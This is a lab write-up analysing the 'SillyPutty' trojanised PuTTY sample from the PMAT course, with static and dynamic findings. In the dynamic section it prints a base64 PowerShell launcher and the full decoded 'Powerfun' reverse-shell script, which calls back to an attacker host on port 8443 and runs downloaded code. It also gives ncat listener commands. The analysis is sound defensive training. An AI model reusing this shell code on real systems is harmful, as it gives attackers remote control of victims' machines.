


## 📌Overview

The SillyPutty challenge takes you on a deeper dive into malware analysis, where things aren’t as simple as they seem. At first glance, the file looks harmless, but underneath, it hides data in clever ways that require careful investigation to uncover.

Using both static and dynamic analysis techniques, this challenge pushes you to think critically, dig deeper, and uncover hidden information step by step—just like a real-world malware investigation.


## Challenge Statement

> **Official HuskyHacks PMAT Labs Statement:**

Hello Analyst,

The help desk has received a few calls from different IT admins regarding the attached program. They say that they've been using this program with no problems until recently. Now, it's crashing randomly and popping up blue windows when it's run. I don't like the sound of that. Do your thing!

IR Team

---

## Objective

* Perform **basic static and dynamic analysis** on the SillyPutty malware sample.
* Extract key facts about its behavior.
* Document findings clearly for reproducibility and learning.

---

## Tools

### Static Analysis

* File Hashes 
* VirusTotal
* FLOSS
* PEStudio
* PEView

### Dynamic Analysis

* Wireshark
* Inetsim
* Netcat
* TCPView
* Procmon

---

## Basic Static Analysis

**Well, without further ado, let’s start our first challenge in PMAT Labs!**

### Question 1: What is the SHA256 hash of the sample?

**Answer:**

```text id="0jh42j"
0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83
```

*Method:* Verified using **HASHMYFILE**, **capa.exe**, **PEStudio**, and **sha256sum.exe**.








---

### Question 2: What architecture is this binary?

**Answer:** 32-bit



---

### Question 3: Are there any results from submitting the SHA256 hash to VirusTotal?

**Answer:**

* 60 out of 70 security vendors flagged the binary as **malicious**.



---

### Question 4: Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?

**Answer:**

* Thousands of strings extracted; most were meaningless.
* PEStudio flagged 162 strings as potentially interesting.
* Notable findings include environment variables, registry references, and clipboard-related functions.



---

### Question 5: Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?

**Answer:**

Key imports detected:

* `GetClipboardOwner`, `RegCreateKeyA`, `RegDeleteValueA`, `SetSecurityDescriptorOwner`
* `FindFirstFileExW`, `GetCurrentProcess`, `GetCurrentProcessId`
* `GetEnvironmentStringsW`, `GetEnvironmentVariableA`
* `GetModuleHandleExW`, `MapViewOfFile`, `OpenProcess`
* `OutputDebugStringW`, `SetEnvironmentVariableW`, `UnmapViewOfFile`, `WriteFile`


---

### Question 6: Is it likely that this binary is packed?

**Answer:**

* Binary is **unpacked**.
* Verified using HuskyHacks’ method comparing **Virtual Size vs. Raw Data Size**.
* **UPX packing not detected** – UPX (Ultimate Packer for eXecutables) is a common tool used to compress or obfuscate binaries, which can make static analysis more difficult.
* Recognizable patterns from Perdisci, Lanzi, and Lee for packed detection include:

  * Number of Standard and Non-Standard Sections (packed files often use non-standard names)
  * Number of Executable Only Sections (packed executables often lack executable-only sections)
  * Number of Readable/Writable/Executable Sections (non-packed files may not require writable executable sections)
  * Number of Entries in the IAT (packed files usually have fewer imports)
  * PE Header, Code, Data, and File Entropy (encrypted code looks random)

.png>)


---

## Analyst Reflection

Obviously, in this phase of the analysis, we were able to extract some useful information as mentioned earlier; however, we still don’t have any “fuzzy” information that clearly determines what this piece of malware is doing. As the golden rule of Mr. HuskyHacks states:

> "It's a very good skill to have as an analyst and treasure to not get sucked into one particular part of methodology and not be holden to a very rigid set of methodologies."

It is important to move on to **dynamic analysis**—shall we? Let’s goooo!

---

## Basic Dynamic Analysis

### Question 1: Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?


**Answer:**

* Upon the initial detonation, a **blue terminal window briefly flashes**, which appears to be a **PowerShell command prompt**, consistent with the **IR team’s report noting that it pops up a blue window when run**.
* Simultaneously, the **PuTTY GUI launches**, indicating the malware interacts with the legitimate application interface.
* There were **no noticeable differences** between detonations with or without internet simulation.




* Using **Wireshark** during the detonation, a DNS query was observed targeting the domain: `bonus2.corporatebonusapplication.local`, suggesting potential network communication.



---

### Question 2: From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?

**Answer:**

* Main payload: malware process execution.
* Tool used: **Procmon** to track process creation and file access.


To investigate the main payload triggered at detonation, I used **Procmon**. I began by launching the tool and setting up two filters:

* **Process Name** contains `putty.exe`
* **Details** contains `Command`

!

Next, I executed the malicious binary. As expected, relevant entries appeared in Procmon.

I observed that a **PowerShell process** was invoked with **PID 6648**. By expanding the **Details** column, I was able to examine exactly what commands and operations were being executed.







```
Date:	11/11/2023 6:19:21.9411828 PM
Thread:	5008
Class:	Process
Operation:	Process Create
Result:	SUCCESS
Path:	C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
Duration:	0.0000000
PID:	5820
Command line:	powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAOW/UWECA51W227jNhB991cMXHUtIRbhdbdAESCLepVsGyDdNVZu82AYCE2NYzUyqZKUL0j87yUlypLjBNtUL7aGczlz5kL9AGOxQbkoOIRwK1OtkcN8B5/Mz6SQHCW8g0u6RvidymTX6RhNplPB4TfU4S3OWZYi19B57IB5vA2DC/iCm/Dr/G9kGsLJLscvdIVGqInRj0r9Wpn8qfASF7TIdCQxMScpzZRx4WlZ4EFrLMV2R55pGHlLUut29g3EvE6t8wjl+ZhKuvKr/9NYy5Tfz7xIrFaUJ/1jaawyJvgz4aXY8EzQpJQGzqcUDJUCR8BKJEWGFuCvfgCVSroAvw4DIf4D3XnKk25QHlZ2pW2WKkO/ofzChNyZ/ytiWYsFe0CtyITlN05j9suHDz+dGhKlqdQ2rotcnroSXbT0Roxhro3Dqhx+BWX/GlyJa5QKTxEfXLdK/hLyaOwCdeeCF2pImJC5kFRj+U7zPEsZtUUjmWA06/Ztgg5Vp2JWaYl0ZdOoohLTgXEpM/Ab4FXhKty2ibquTi3USmVx7ewV4MgKMww7Eteqvovf9xam27DvP3oT430PIVUwPbL5hiuhMUKp04XNCv+iWZqU2UU0y+aUPcyC4AU4ZFTope1nazRSb6QsaJW84arJtU3mdL7TOJ3NPPtrm3VAyHBgnqcfHwd7xzfypD72pxq3miBnIrGTcH4+iqPr68DW4JPV8bu3pqXFRlX7JF5iloEsODfaYBgqlGnrLpyBh3x9bt+4XQpnRmaKdThgYpUXujm845HIdzK9X2rwowCGg/c/wx8pk0KJhYbIUWJJgJGNaDUVSDQB1piQO37HXdc6Tohdcug32fUH/eaF3CC/18t2P9Uz3+6ok4Z6G1XTsxncGJeWG7cvyAHn27HWVp+FvKJsaTBXTiHlh33UaDWw7eMfrfGA1NlWG6/2FDxd87V4wPBqmxtuleH74GV/PKRvYqI3jqFn6lyiuBFVOwdkTPXSSHsfe/+7dJtlmqHve2k5A5X5N6SJX3V8HwZ98I7sAgg5wuCktlcWPiYTk8prV5tbHFaFlCleuZQbL2b8qYXS8ub2V0lznQ54afCsrcy2sFyeFADCekVXzocf372HJ/ha6LDyCo6KI1dDKAmpHRuSv1MC6DVOthaIh1IKOR3MjoK1UJfnhGVIpR+8hOCi/WIGf9s5naT/1D6Nm++OTrtVTgantvmcFWp5uLXdGnSXTZQJhS6f5h6Ntcjry9N8eXQOXxyH4rirE0J3L9kF8i/mtl93dQkAAA=='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"

```
**The next step was to decode the Base64 string captured from Procmon. I performed this using the Kali Linux terminal, which allowed me to convert the encoded payload into its raw, readable form for further analysis.**





You can find the full decoded content below if you'd like:

```
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true

```


```powershell
if ($Command -eq "reverse")
{
    $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
}
```

This snippet is responsible for establishing a **reverse shell connection** by creating a TCP session to a remote server controlled by the attacker (`bonus2.corporatebonusapplication.local`) over port **8443**.

The parameter **`-Sslcon true`** indicates that the communication channel is secured using **SSL/TLS encryption**, ensuring that the data exchanged between the infected host and the remote server is encrypted.


---

### Question 3: What is the DNS record that is queried at detonation?

Perfect! We can rewrite that **answer in a polished way**, connecting the **Wireshark observation** with the **PowerShell command** for clarity. Here’s a cleaner version:

---

**Answer:**

* The DNS record queried during detonation is: `bonus2.corporatebonusapplication.local`. This can be observed in **Wireshark** by filtering for DNS queries.


* Additionally, this domain is referenced in the malware’s PowerShell payload, specifically in the command that sets up a **reverse shell**:

```powershell
if ($Command -eq "reverse")
{
    ...
    "bonus2.corporatebonusapplication.local"
    ...
}
```
---

### Question 4: What is the callback port number at detonation?

**Answer:**

* Callback port: TCP 8443

```
if ($Command -eq "reverse")
    {
	    ...
        8443
        ...
    }

```

---

### Question 5: What is the callback protocol at detonation?

**Answer:**

* Protocol: SSL/TLS, identified in Wireshark via the CLIENT HELLO message.


---

### Question 6: How can you use host-based telemetry to identify the DNS record, port, and protocol?

**Answer:**

* Tools like **Procmon** and **TCPView** can trace process network activity to identify the DNS record, port, and protocol.


---

### Question 7: Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?

**Answer:**

* Without listener: shell does **not spawn**.
* With listener on callback port: shell can be successfully obtained.


To successfully establish a reverse shell, two key steps were required:

* First, I needed to simulate the attacker-controlled server. This was achieved by modifying the `C:/Windows/System32/drivers/etc/hosts` file and adding the following entry:

```
127.0.0.1    bonus2.corporatebonusapplication.local
```

* Next, I configured a listener to receive the incoming connection by running:

```bash
ncat -lvnp 8443
```


However, command execution did not work as expected.

Upon further investigation, I recalled that the malware communicates using **SSL/TLS encryption**, which explains the unreadable output observed in the terminal. To address this, I updated the Netcat command to support SSL:

```bash
ncat --ssl -lvnp 8443
```


With this adjustment, the reverse shell was successfully established, completing the challenge.


---


# 📌 Conclusion

**SillyPutty** demonstrates the importance of building a **baseline understanding** of malware behavior in a controlled lab environment. Through **basic static and basic dynamic analysis**, analysts can:

* Identify suspicious or interesting strings
* Inspect import functions and memory structures
* Track network activity and callbacks
* Understand how payloads behave when detonated


---

This work is part of **FuzzRaiders**’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---


